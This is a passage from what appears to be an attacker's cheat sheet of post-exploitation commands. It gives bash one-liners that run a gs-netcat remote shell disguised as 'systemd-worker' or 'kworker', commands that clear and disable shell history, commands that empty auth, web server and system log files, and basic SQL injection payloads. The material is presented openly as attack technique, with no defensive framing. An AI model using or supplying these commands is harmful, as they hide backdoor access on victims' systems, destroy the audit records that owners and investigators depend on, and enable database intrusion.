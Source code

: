 ### Process Hiding
```bash
# Change process name
exec -a "systemd-worker" gs-netcat -c -s secret -i

# Background with custom name
nohup bash -c 'exec -a "kworker" gs-netcat -c -s secret -i' &
```

## 🧹 Log Cleaning Commands

### Clear History
```bash
# Bash history
history -c
history -w
echo "" > ~/.bash_history

# Disable history
unset HISTFILE
export HISTSIZE=0
```

### Clear System Logs
```bash
# Auth logs
> /var/log/auth.log
> /var/log/secure

# Web server logs
> /var/log/apache2/access.log
> /var/log/nginx/access.log

# System logs
> /var/log/syslog
> /var/log/messages
```

## 🔓 Common Exploits

### SQL Injection
```sql
-- Basic SQLi
' OR '1'='1

-- Union select
' UNION SELECT 1,2,3--

-- Time-based blind
'; WAITFOR DELAY '00:00:05'--
```
